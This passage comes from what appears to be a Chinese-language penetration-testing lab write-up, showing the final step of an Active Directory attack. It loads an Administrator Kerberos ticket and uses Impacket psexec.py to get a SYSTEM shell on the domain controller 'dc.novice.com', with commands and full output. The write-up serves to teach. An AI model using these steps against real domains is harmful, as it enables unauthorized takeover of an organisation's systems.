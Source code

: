 添加此条目后，所有相关的域名都将正确指向目标IP。

## **4.2 最终攻击**

1. **加载最终票据**
   首先，更新 `KRB5CCNAME` 环境变量，使其指向刚刚获取的、包含管理员权限的新票据文件。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ export KRB5CCNAME=Administrator@cifs_dc.novice.com@NOVICE.COM.ccache
   ```

2. **执行 `psexec.py` 获取SYSTEM权限**
   最后，使用 `psexec.py` 和已加载的管理员票据，在域控制器上执行命令。该工具将利用票据进行认证，并在目标上创建一个服务来反弹一个交互式Shell。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass dc.novice.com
   Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
   
   [*] Requesting shares on dc.novice.com.....
   [*] Found writable share ADMIN$
   [*] Uploading file ACAXTjTE.exe
   [*] Opening SVCManager on dc.novice.com.....
   [*] Creating service ELXu on dc.novice.com.....
   [*] Starting service ELXu.....
   [!] Press help for extra shell commands
   [-] Decoding error detected, consider running chcp.com at the target,
   map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
   and then execute smbexec.py again with -codec and the corresponding codec
   Microsoft Windows [�汾 10.0.20348.169]
   
   [-] Decoding error detected, consider running chcp.com at the target,
   map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
   and then execute smbexec.py again with -codec and the corresponding codec
   (c) Microsoft Corporation����������Ȩ����
   
   C:\Windows\system32> whoami
   nt authority\system
   ```

`whoami` 命令的返回结果确认为 `nt authority\system`，这表明我们已成功获得域控制器的最高系统权限。至此，本次渗透测试圆满完成。